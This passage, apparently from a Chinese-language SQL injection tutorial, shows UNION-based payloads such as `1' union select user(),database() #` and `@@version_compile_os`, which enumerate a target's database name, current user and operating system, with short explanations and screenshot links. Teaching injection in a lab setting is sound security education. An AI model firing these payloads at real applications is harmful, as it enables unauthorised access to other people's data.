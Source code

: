 Payload : `1' union select database(),2 #` <br>

![images](/images/2019-03-30/sql11.png) <br>

-----

当然也可以同时显示当前用户，<br>

Payload : `1' union select user(),database() #` <br>

![images](/images/2019-03-30/sql12.png) <br>

-----


### <span id = "os">4. 查看当前操作系统版本</span>

Payload : 

```sql
1' union select @@version_compile_os,2 #
```

`version()` 获取当前数据库版本. <br>

`@@version_compile_os` 获取当前操作系统。 <br>

`@` 表示局部变量 <br>

`@@` 表示全局变量 <br>

![images](/images/2019-03-30/sql16.png) <br>